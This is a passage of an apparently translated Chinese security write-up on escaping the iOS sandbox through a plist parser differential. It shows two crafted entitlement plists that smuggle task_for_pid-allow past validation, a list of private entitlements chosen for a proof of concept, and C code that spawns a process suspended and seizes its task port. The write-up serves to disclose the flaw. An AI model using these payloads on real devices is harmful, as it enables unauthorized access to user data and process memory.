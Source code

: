 ```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd"&gt;
&lt;plist version="1.0"&gt;
&lt;dict&gt;
    &lt;???&gt;&lt;!-- ?&gt;
    &lt;key&gt;task_for_pid-allow&lt;/key&gt;
    &lt;true/&gt;
    &lt;!-- --&gt;
&lt;/dict&gt;
&lt;/plist&gt;
```

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;!DOCTYPE [%&gt;
&lt;plist version="1.0"&gt;
&lt;dict&gt;
    &lt;key&gt;task_for_pid-allow&lt;/key&gt;
    &lt;true/&gt;
&lt;/dict&gt;
&lt;/plist&gt;
;]&gt;
&lt;plist version="1.0"&gt;
&lt;dict&gt;
&lt;/dict&gt;
&lt;/plist&gt;
```

与第一种变体相比它们都没有那么优雅, 也没有什么收获, 我将其作为练习让读者了解解析器差异是由哪些原因引起的, 或者不同的解析器如何应对这些文件。

不过要注意的一件事是, 根据在苹果设备上安装IPA文件所使用的方式不同, 获取这些entitlements来存活进程可能遇到问题。<br>
这是因为预置应用程序上的entitlements还包含team ID和app ID, 每次签名时Cydia Impactor都会随机生成该标识符, 因此必须解析, 修改和重新生成entitlements文件。这个问题目前我尚未找到解决方式, 但我获悉Xcode可以正常处理entitlements文件, 同理codesign + ideviceinstaller的手动替代方案也可以正常处理。



## 4. 沙盒逃逸

现在我们只需要挑选所需的entitlements即可, 作为初步PoC我选择以下三项entitlements:
- com.apple.private.security.no-container – 可以阻止沙箱将任何配置文件应用于我们的进程, 这意味着我们现在可以读取和写入`mobile`用户可以访问的任何位置, 执行大量的系统调用, 并与我们之前不允许使用的数百种驱动程序和用户态服务进行对话。就用户数据而言, 安全性不再存在。
- task_for_pid-allow – 万一文件系统不够用, 这使我们可以查找任何以`mobile`运行的进程的任务端口, 然后将其用于读写进程内存或直接获取/设置线程寄存器状态。
- platform-application – 通常, 我们将被标记为非Apple二进制文件, 并且不允许在Apple二进制文件的任务端口上执行上述操作, 但是此entitlements将我们标记为货真价实的系统应用。:P
如果上述entitlements还不够, 假设我们需要CF也拥有某些entitlements, 那么我们可以通过上述三个entitlements轻易的实现。我们要做的就是找到一个包含所需entitlements的二进制文件, `posix_spawn`处于刮起状态, 获取创建新进程的任务端口然后将其招安。

```
task_t haxx(const char *path_of_executable)
`{`
    task_t task;
    pid_t pid;
    posix_spawnattr_t att;
    posix_spawnattr_init(&amp;att);
    posix_spawnattr_setflags(&amp;att, POSIX_SPAWN_START_SUSPENDED);
    posix_spawn(&amp;pid, path_of_executable, NULL, &amp;att, (const char*[])`{` path_of_executable, NULL `}`, (const char*[])`{` NULL `}`);
    posix_spawnattr_destroy(&amp;att);
    task_for_pid(mach_task_self(), pid, &amp;task);
    return task;
`}`
```
